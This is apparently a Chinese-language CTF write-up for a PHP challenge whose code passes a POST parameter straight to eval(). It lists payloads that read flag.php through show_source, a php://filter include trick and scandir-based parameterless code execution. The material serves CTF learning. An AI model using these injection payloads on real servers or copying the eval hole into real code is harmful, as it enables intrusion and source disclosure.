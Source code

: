 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```



同上



### 第一种

直接show_source()

```
c=show_source("flag.php");
```

![image-20250404152609877](./assets/image-20250404152609877.png)



highlight_file()

```
c=highlight_file("flag.php");
```

![image-20250404152630173](./assets/image-20250404152630173.png)





### 第二种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404152717885](./assets/image-20250404152717885.png)

![image-20250404152734270](./assets/image-20250404152734270.png)



### 第三种

参考无参rce

```
c=var_dump(scandir(getcwd()));
```

![image-20250404152837899](./assets/image-20250404152837899.png)

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250404152856896](./assets/image-20250404152856896.png)